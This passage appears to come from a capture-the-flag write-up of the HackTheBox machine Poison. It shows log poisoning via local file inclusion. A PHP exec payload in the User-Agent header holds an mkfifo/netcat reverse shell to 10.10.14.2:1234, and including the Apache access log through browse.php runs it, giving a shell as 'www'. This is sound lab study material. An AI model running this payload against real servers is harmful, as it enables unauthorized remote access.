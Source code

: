 Notice that in the logs, the User Agent is being logged, which is something that we can control!

Could we possibly change the User Agent to a reverse shell command?

```http
- Request -
GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f') ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

- Response -
HTTP/1.1 200 OK
Date: Mon, 18 Jul 2022 02:37:41 GMT
Server: Apache/2.4.29 (FreeBSD) PHP/5.6.32
X-Powered-By: PHP/5.6.32
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 31694
...
```

Now that our reverse shell code is stored in the logs, we can just open up a netcat listener and execute the code by calling the log file on the server!

```bash
- Request -
GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

- Netcat listener -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# nc -nlvp 1234                                             
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.84] 16068
sh: can't access tty; job control turned off
$ whoami
www
```

## Method 3 - PHPInfo to LFI
